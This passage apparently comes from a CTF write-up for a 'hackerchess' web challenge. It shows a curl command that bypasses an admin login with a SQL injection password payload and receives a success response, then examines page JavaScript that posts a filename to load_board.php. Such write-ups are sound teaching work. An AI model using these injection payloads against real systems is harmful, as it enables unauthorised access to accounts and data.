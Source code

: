 ```shell
❯ curl 'https://hackerchess-web.h4ck.ctfcompetition.com/admin.php' -X POST \
    --data 'username=master&password=%27or%27x%27%3D%27x'

<html>
<head>
    <title>Secret Admin Panel</title>
<script
    data-autoload-cookie-consent-bar="true"
    data-autoload-cookie-consent-bar-intl-code=""
    src="https://www.gstatic.com/brandstudio/kato/cookie_choice_component/cookie_consent_bar.v3.js">
</script>
<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-06YS0MVC8B"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
    gtag('js', new Date());
    gtag('config', 'G-06YS0MVC8B', { anonymize_ip: true, referrer: document.referrer.split('?')[0] });
    </script>

</head>
<body>


Logged in successfully!</body>
</html>
```

You can use this panel to turn off cheats, but that is not how you are going to win properly the game 🙂(i.e., you don't need to leverage this SQL injection to solve the challenge).

***Never forget to look at the source!***

Looking at the game main HTML page, I noticed a weird script:

```javascript
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'baseboard.fen')

  xhr.open('POST', url, true)
  xhr.send(formData);
  window.location.href = "index.php";
}
```

The load_baseboard() function is called when the START button is pressed.

```html
<button id="start" onclick="load_baseboard()"></button>
```
